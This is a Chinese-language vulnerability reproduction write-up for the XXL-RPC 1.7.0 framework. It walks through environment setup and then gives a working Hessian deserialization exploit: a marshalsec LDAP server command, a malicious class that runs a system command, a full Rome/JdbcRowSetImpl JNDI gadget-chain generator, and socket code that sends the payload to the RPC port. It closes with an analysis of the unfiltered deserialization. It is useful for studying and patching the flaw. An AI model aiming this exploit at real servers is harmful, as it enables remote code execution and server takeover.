










# 环境搭建

RPC（Remote Procedure Call Protocol，远程过程调用），调用远程服务就像调用本地服务，在提供远程调用能力时不损失本地调用的语义简洁性；

在官方下载源码，本次使用1.7.0版本

https://github.com/xuxueli/xxl-rpc/

```
源码目录介绍：
- /doc
- /xxl-rpc-admin    ：轻量级服务（注册）中心，可选模块；
- /xxl-rpc-core     ：核心依赖；
- /xxl-rpc-samples  ：示例项目；
    - /xxl-rpc-sample-frameless     ：无框架版本示例；
    - /xxl-rpc-sample-springboot    ：springboot版本示例；
        - /xxl-rpc-sample-springboot-api           ：公共API接口
        - /xxl-rpc-sample-springboot-client        ：服务消费方 invoker 调用示例；
        - /xxl-rpc-sample-springboot-server        ：服务提供方 provider 示例;
```

初始化数据库：执行doc/db/tables_xxl_rpc.sql

在`/xxl-rpc/xxl-rpc-admin/src/main/resources/application.properties`下配置项目信息



```
### 数据库配置
spring.datasource.url=jdbc:mysql://127.0.0.1:3306/xxl_rpc?useUnicode=true&characterEncoding=UTF-8&autoReconnect=true&serverTimezone=Asia/Shanghai
### 服务注册数据磁盘同步目录
xxl.rpc.registry.data.filepath=./data/applogs/xxl-rpc/registrydata
### xxl-rpc, access token
xxl.rpc.registry.accessToken=
### 登陆信息配置
xxl.rpc.registry.login.username=admin
xxl.rpc.registry.login.password=123456
```

部署项目，运行xxl-rpc-admin下的springboot，访问http://localhost:8080/xxl-rpc-admin 


运行服务提供者xxl-rpc-sample-springboot-server



配置服务提供方 ProviderFactory



| ProviderFactory 参数    | 说明                                                         |
| :---------------------- | :----------------------------------------------------------- |
| setServer               | 服务通讯方案，可选范围：NettyServer（默认）、NettyHttpServer ; |
| setSerializer           | 序列化方案，可选范围: HessianSerializer（默认）、Hessian1Serializer ; |
| setCorePoolSize         | 业务线程池core大小                                           |
| setMaxPoolSize          | 业务线程是max大小                                            |
| ip                      | 服务方IP，为空自动获取机器IP，支持手动指定                   |
| port                    | 服务方端口，默认 7080                                        |
| accessToken             | 服务鉴权Token，非空时生效；                                  |
| setServiceRegistry      | 服务注册中心，可选范围：XxlRegistryServiceRegistry.class、LocalServiceRegistry.class；支持灵活自由扩展； |
| setServiceRegistryParam | 服务注册中心启动参数，参数说明可参考各注册中心实现的 start() 的方法注释； |

可以发现接入了服务提供者

启动服务消费者xxl-rpc-sample-springboot-client

配置服务消费方 InvokerFactory



| InvokerFactory 参数  | 说明                                                         |
| :------------------- | :----------------------------------------------------------- |
| serviceRegistryClass | 服务注册中心，可选范围：XxlRegistryServiceRegistry.class、LocalServiceRegistry.class；支持灵活自由扩展； |
| serviceRegistryParam | 服务注册中心启动参数，参数说明可参考各注册中心实现的 start() 的方法注释； |

访问对应的web的controller






发现实现从client中调用了server中的service的实现类，跨JVM进行了一次RPC通讯

在server端添加一个依赖

```
<dependency>
  <groupId>com.rometools</groupId>
  <artifactId>rome</artifactId>
  <version>1.7.0</version>
</dependency>
```

# 漏洞复现

用marshalsec起一个恶意的ldap服务端

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8888/#exp
```

恶意类exp.class

```
public class exp {
    public exp() throws Exception{
        Runtime.getRuntime().exec("open -a Calculator");
    }
}
```

生成序列化文件

```
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.rowset.JdbcRowSetImpl;

import java.io.*;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.net.Socket;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

public class rometest {

    public static void main(String[] args) {
        try {
            byte[] DESERIALIZATION_PAYLOAD = getPayload();
            Socket socket = new Socket("localhost", 7080);
            DataOutputStream out = new DataOutputStream(socket.getOutputStream());
            out.writeInt(DESERIALIZATION_PAYLOAD.length);
            out.write(DESERIALIZATION_PAYLOAD);
            out.flush();
            socket.close();
        } catch (Exception ex) {
            System.err.println(ex);
        }
    }

    public static byte[] getPayload() throws Exception {


        //反序列化时ToStringBean.toString()会被调用，触发JdbcRowSetImpl.getDatabaseMetaData->JdbcRowSetImpl.connect->Context.lookup
        String jndiUrl = "ldap://127.0.0.1:1389/exp";
        JdbcRowSetImpl rs = new JdbcRowSetImpl();
        rs.setDataSourceName(jndiUrl);
        rs.setMatchColumn("foo");

//反序列化时EqualsBean.beanHashCode会被调用，触发ToStringBean.toString
        ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, rs);

//反序列化时HashMap.hash会被调用，触发EqualsBean.hashCode->EqualsBean.beanHashCode
        EqualsBean root = new EqualsBean(ToStringBean.class, item);

//HashMap.put->HashMap.putVal->HashMap.hash
        HashMap<Object, Object> s = new HashMap<>();
        setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        } catch (ClassNotFoundException e) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, root, root, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, root, root, null));
        setFieldValue(s, "table", tbl);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream);
        hessian2Output.writeObject(s);
        hessian2Output.flushBuffer();
        return byteArrayOutputStream.toByteArray();
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}
```

也可以直接用marshalsec生成hessian2+rome的payload

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian2 Rome ldap://localhost:1389 > payload.bin
```

通过socket向7080的xxl-rpc服务端口发送序列化数据

```
import java.io.DataOutputStream;
import java.net.Socket;
import java.nio.file.Files;
import java.nio.file.Paths;


public class TcpClient {


    public static void main(String[] args) {
        try {
            byte[] DESERIALIZATION_PAYLOAD = Files.readAllBytes(Paths.get("payload.bin"));
            Socket socket = new Socket("localhost", 7080);
            DataOutputStream out = new DataOutputStream(socket.getOutputStream());
            out.writeInt(DESERIALIZATION_PAYLOAD.length);
            out.write(DESERIALIZATION_PAYLOAD);
            out.flush();
            socket.close();
        } catch (Exception ex) {
            System.err.println(ex);
        }
    }
}
```



# 漏洞分析

XXL-RPC是一款分布式RPC框架，使用Netty框架和Hessian序列化与反序列化来通信，当存在Gadget的时候，一旦攻击者向服务端提供恶意的序列化数据，反序列化是就会执行任意代码，获取服务器权限。

XXL-RPC服务端的配置在XxlRpcProviderConfig中



配置了Server和Serializer， 默认是Hessian，也可以采用Hessian1，实际上是通过NettyServer用于NettyDecoder解码传入的消息



然后将解码后的序列化数据，传入对应的deserialize进行反序列化，因为设置的为HessianSerializer



在这里直接进行反序列化，没有进行过滤，当存在rome的时候可以用hessian+rome的方式进行jndi注入


[分布式服务框架XXL-RPC (xuxueli.com)](https://www.xuxueli.com/xxl-rpc/#《分布式服务框架XXL-RPC》)

https://securitylab.github.com/advisories/GHSL-2023-052_XXL-RPC/